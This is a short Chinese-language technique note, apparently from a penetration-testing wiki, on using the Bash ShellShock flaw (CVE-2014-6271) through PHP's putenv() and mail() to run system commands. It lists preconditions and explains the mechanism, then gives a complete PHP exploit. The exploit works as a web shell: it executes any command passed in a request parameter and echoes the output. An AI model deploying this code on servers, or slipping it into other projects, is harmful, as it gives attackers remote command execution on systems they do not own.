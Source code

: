 ```yaml
---
title: 利用 ShellShock 绕过
id: zhfly3472
---
```


## 利用 ShellShock 绕过

**1\. 前提条件**

目标OS存在Bash破壳（CVE-2014-6271）漏洞
PHP 5.*
linux
putenv()、mail()可用

**2\. 基本原理**

一般函数体内的代码不会被执行，但破壳漏洞会错误的将"{}"花括号外的命令进行执行
php里的某些函数(例如:mail()、imap_mail())能调用popen或其他能够派生bash子进程的函数，可以通过这些函数来触发破壳漏洞(CVE-2014-6271)执行命令。

**3\. exp**

```
<?php
   function shellshock($cmd) {
  $tmp = tempnam(".","data");
  putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
  mail("a@127.0.0.1","","","","-bv");
  $output = @file_get_contents($tmp);
  @unlink($tmp);
  if($output != "") return $output;
  else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?> 
```